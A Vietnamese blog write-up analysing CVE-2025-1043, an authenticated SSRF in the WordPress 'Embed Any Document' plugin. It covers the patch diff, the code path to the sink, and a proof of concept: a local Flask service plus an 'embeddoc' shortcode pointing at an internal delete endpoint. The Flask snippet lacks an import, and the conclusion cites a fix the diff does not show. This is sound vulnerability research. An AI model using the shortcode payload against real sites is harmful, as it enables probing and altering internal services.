

<!--more-->

## CVE & Basic Info
**Plugin "Embed Any Document – Embed PDF, Word, PowerPoint and Excel Files"** cho WordPress có lỗ hổng **Server-Side Request Forgery (SSRF)** trong tất cả các phiên bản đến và bao gồm **2.7.5** thông qua shortcode `'embeddoc'`. Lỗ hổng này cho phép những kẻ tấn công đã xác thực, có quyền truy cập ở mức **Contributor** trở lên, thực hiện các yêu cầu web tới các địa chỉ tùy ý xuất phát từ ứng dụng web và có thể được sử dụng để truy vấn và sửa đổi thông tin từ các dịch vụ nội bộ.

* **CVE ID**: [CVE-2025-1043](https://www.cve.org/CVERecord?id=CVE-2025-1043)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.7.5
* **Patched Versions**: 2.7.6
* **CVSS severity**: Low (4.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress Embed Any Document Plugin](https://wordpress.org/plugins/embed-any-document/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Embed Any Document**: **2.7.5** (vulnerable) và **2.7.6** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff
```php {title="awsm-embed.php - v2.7.5" hl_lines=[15,17,18,19,24,25,26]}
public function embed_shortcode( $atts ) {
    ...
    $show             = false;
    $shortcode_atts   = shortcode_atts(
        array(
            'url'      => '',
            'drive'    => '',
            'viewer'   => $default_provider,
            'download' => $default_download,
            ...
        ),
        $atts
    );

    if ( isset( $shortcode_atts['url'] ) && ! empty( $shortcode_atts['url'] ) ) :
        ...
        if ( $this->allowdownload( $shortcode_atts['viewer'] ) ) {
            if ( $shortcode_atts['download'] === 'alluser' || $shortcode_atts['download'] === 'all' ) {
                $show = true;
            } elseif ( $shortcode_atts['download'] === 'logged' && is_user_logged_in() ) {
                $show = true;
            }
        }
        $url = esc_url( $shortcode_atts['url'], array( 'http', 'https' ) );
        if ( $show ) {
            $filedata = wp_remote_head( $shortcode_atts['url'] );
            ...
        }
    ...
    return $embed;
}
```

Trong phiên bản lỗi, hàm `embed_shortcode()` thực hiện một HTTP HEAD request bằng hàm `wp_remote_head()` với giá trị `url` được lấy trực tiếp từ `$shortcode_atts['url']`. Do không có bất kỳ cơ chế xác thực, lọc, hoặc giới hạn phạm vi URL, kẻ tấn công có thể chèn vào đó một đường dẫn tùy ý => Dẫn đến request có thể gửi đến các local service khác gấy **SSRF**

```php {title="awsm-embed.php - v2.7.6" hl_lines=[15,17,18,19,24,25,26]}
public function embed_shortcode( $atts ) {
    ...
    $show             = false;
    $shortcode_atts   = shortcode_atts(
        array(
            'url'      => '',
            'drive'    => '',
            'viewer'   => $default_provider,
            'download' => $default_download,
            ...
        ),
        $atts
    );

    if ( isset( $shortcode_atts['url'] ) && ! empty( $shortcode_atts['url'] ) ) :
        ...
        if ( $this->allowdownload( $shortcode_atts['viewer'] ) ) {
            if ( $shortcode_atts['download'] === 'alluser' || $shortcode_atts['download'] === 'all' ) {
                $show = true;
            } elseif ( $shortcode_atts['download'] === 'logged' && is_user_logged_in() ) {
                $show = true;
            }
        }
        $url = esc_url( $shortcode_atts['url'], array( 'http', 'https' ) );
        if ( $show ) {
            $filedata = wp_safe_remote_head( $shortcode_atts['url'] );
            ...
        }
    ...
    return $embed;
}
```

Bản vá đã thay thế việc sử dụng `wp_remote_head()` bằng hàm **`wp_safe_remote_head()`**, hàm này bổ sung các cơ chế kiểm tra an toàn nhằm **ngăn chặn truy cập đến các địa chỉ nội bộ, private, loopback hoặc link-local**, qua đó **giảm thiểu nguy cơ tấn công SSRF**.

### Vulnerable Code 

Để đoạn `wp_remote_head( $shortcode_atts['url'] )` trong `embed_shortcode()` thực sự được gọi, ta cần **bypass** tất cả các ràng buộc sau:

1. `url` phải tồn tại và không rỗng

```php
if ( isset( $shortcode_atts['url'] ) && ! empty( $shortcode_atts['url'] ) )
```

2. Biến `$show` phải được đặt thành true trước khi vào khối gọi HEAD
`$show` mặc định `false`. Nó chỉ trở thành `true` khi `if ( $this->allowdownload( $shortcode_atts['viewer'] ) )` trả về `true` và một trong hai điều kiện sau đúng:

```php
if ( $this->allowdownload( $shortcode_atts['viewer'] ) ) {
    if ( $shortcode_atts['download'] === 'alluser' || $shortcode_atts['download'] === 'all' ) {
        $show = true;
    } elseif ( $shortcode_atts['download'] === 'logged' && is_user_logged_in() ) {
        $show = true;
    }
}
```

* `download` bằng `'alluser'` hoặc `'all'`. 
* `download` bằng `'logged'` và `is_user_logged_in()` trả về `true` (tức người dùng đã đăng nhập).

```php
public function allowdownload( $provider ) {
    $blacklist = array( 'drive', 'box' );
    if ( in_array( $provider, $blacklist, true ) ) {
        return false;
    } else {
        return true;
    }
}
```

`allowdownload()` sẽ trả về `true` nếu `$provider ($shortcode_atts['viewer'])` không tồn tại hoặc không nằm trong `$blacklist`


Vì SSRF dùng HTTP HEAD nên **không đọc được body trực tiếp**, nhưng vẫn có thể lộ **metadata** (Content-Type, Content-Length) và thăm dò/khám phá các endpoint nội bộ. Nếu endpoint **không phân biệt method** có thể dẫn đến thay đổi, xóa dữ liệu nhạy cảm.


`embed_shortcode()` được đăng ký làm callback cho shortcode:

```php
add_shortcode( 'embeddoc', array( $this, 'embed_shortcode' ) );
```

### Flow


graph TD
A["Shortcode: [embeddoc url=...]"] --> B["embed_shortcode($atts)"]
B --> C{"isset($shortcode_atts['url']) && !empty(...)?"}
C -- Yes --> D{"$this->allowdownload($shortcode_atts['viewer'])?"}
C -- No --> End1[No request]
D -- Yes --> E{"download == 'all'|'alluser' OR (download=='logged' && is_user_logged_in())?"}
D -- No --> End2[No request]
E -- Yes --> F["wp_remote_head($shortcode_atts['url']) ← SSRF sink"]
E -- No --> End3[No request]
F --> G["Return to client"]


## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

1. Login bằng tài khoản Contributor

2. Tạo post với shortcode

```
[embeddoc url=http://localhost:8001/delete?id=1 download=all]
```

**Result**:



## Conclusion

CVE-2025-1043 là SSRF do plugin gọi `wp_remote_head()` với URL từ shortcode mà không kiểm tra. Dù là `HEAD` (không có body), vẫn có thể lộ metadata, thăm dò dịch vụ nội bộ hoặc, khi có redirect/endpoint không phân biệt method, gây thay đổi trạng thái. Bản vá (v2.7.6) dùng `esc_url_raw()` + `wp_safe_remote_head()` để giảm rủi ro.

## Key takeaways

* Nguyên nhân: thiếu lọc/whitelist URL trước khi gọi HTTP từ server.
* Ảnh hưởng: metadata leak, internal discovery, khả năng chuỗi tấn công (redirect → GET, method-agnostic endpoints).
* Fix: cập nhật lên **v2.7.6**.
* Khuyến nghị ngắn: dùng `wp_safe_remote_*`, `esc_url_raw()`/whitelist, tắt redirect khi chỉ cần header, và giới hạn quyền người dùng.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[WordPress Embed Any Document Plugin <= 2.7.5 is vulnerable to Server Side Request Forgery (SSRF)](https://patchstack.com/database/wordpress/plugin/embed-any-document/vulnerability/wordpress-embed-any-document-embed-pdf-word-powerpoint-and-excel-files-plugin-2-7-5-authenticated-contributor-blind-server-side-request-forgery-via-embeddoc-shortcode-vulnerability) 
